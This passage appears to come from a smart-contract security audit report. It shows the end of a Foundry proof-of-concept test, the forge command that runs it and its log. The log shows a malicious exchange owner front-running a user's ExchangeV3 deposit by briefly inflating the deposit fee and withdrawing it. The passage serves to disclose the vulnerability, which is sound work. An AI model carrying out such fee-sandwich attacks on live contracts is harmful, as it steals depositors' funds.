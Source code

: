 ```solidity
        console.log("Alice's ether balance is now: %d wei with a deposit value of: %d wei", alice.balance, exchange.getPendingDepositAmount(alice, ethDepositAddress));
    }
}
```

4. Run the following forge test:
```shell
forge test --match-test testMaliciousOwnerFrontrunUsers  --fork-url http://127.0.0.1:8545 -vv --via-ir
```

5. Output is:
```txt
Running 1 test for test/Counter.t.sol:PoC
[32m[PASS][0m testMaliciousOwnerFrontrunUsers() (gas: 276125)
Logs:
  ------Setting up accounts------
  Bob's ether balance is: 5000000000000000000 wei
  Alice's ether balance is: 5000000000000000000 wei
  Default deposit ether balance is: 328293880694913421416 wei
  Ether balance of malicious exchange owner is: 0 wei
  ------Bob tries to deposit Ether to ExchangeV3 but mistakenly has 'amount' parameter lower than msg.value sent------
  ------Malicious owner spots sandwich opportunity and front-runs Bob's deposit------
  Deposit fee temporarily set to difference between Bob's msg.value and 'amount' (4999999999999999999 wei)
  Exchange owner collects temporarily inflated fee and withdraws it
  Exchange owner's ether balance is now: 4999999999999999999 wei
  Bob's ether balance is now: 0 wei with a deposit value of: 1 wei
  Setting deposit fee back to 0 wei, completing sandwich attack on Bob
  ------Alice deposits same Ether amount as Bob, but correctly sets 'amount' parameter and msg.value equal------
  ------Malicious owner has no sandwich opportunity and lets Alice deposit as normal------
  Alice's ether balance is now: 0 wei with a deposit value of: 5000000000000000000 wei

Test result: [32mok[0m. [32m1[0m passed; [31m0[0m failed; [33m0[0m skipped; finished in 3.19ms
 
Ran 1 test suites: [32m1[0m tests passed, [31m0[0m failed, [33m0[0m skipped (1 total tests)
```